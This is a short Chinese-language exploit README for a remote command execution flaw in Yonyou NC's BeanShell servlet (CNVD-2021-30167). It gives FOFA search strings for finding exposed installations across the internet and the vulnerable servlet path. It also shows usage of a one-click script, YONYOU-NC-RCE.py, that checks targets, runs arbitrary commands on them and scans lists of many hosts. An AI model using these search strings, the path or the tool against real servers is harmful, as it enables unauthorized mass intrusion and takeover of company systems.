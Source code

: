 # 用友NC BeanShell远程代码执行 

# CNVD-2021-30167

## 漏洞描述

用友NC是一款企业级管理软件，在大中型企业广泛使用。实现建模、开发、继承、运行、管理一体化的IT解决方案信息化平台。用友 NC bsh.[servlet](https://so.csdn.net/so/search?q=servlet&spm=1001.2101.3001.7020).BshServlet 存在远程命令执行漏洞，通过BeanShell 执行远程命令获取服务器权限。

## 漏洞影响

```
NC 6.5版本
```

## FOFA

```
title="YONYOU NC"
icon_hash="1085941792"
```

## POC

```
用友访问地址+/servlet/~ic/bsh.servlet.BshServlet
```

一键验证脚本见 **YONYOU-NC-RCE.py**

```
python ./YONYOU-NC-RCE.py -u http://www.example.com --check
python ./YONYOU-NC-RCE.py -u http://www.example.com --cmd "ls -la"
python ./YONYOU-NC-RCE.py -f target.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url
  -f FILE, --file FILE  read the url from the file
  --check               Check if vulnerable
  --cmd CMD             execute cmd (i.e: "ls -l")
```

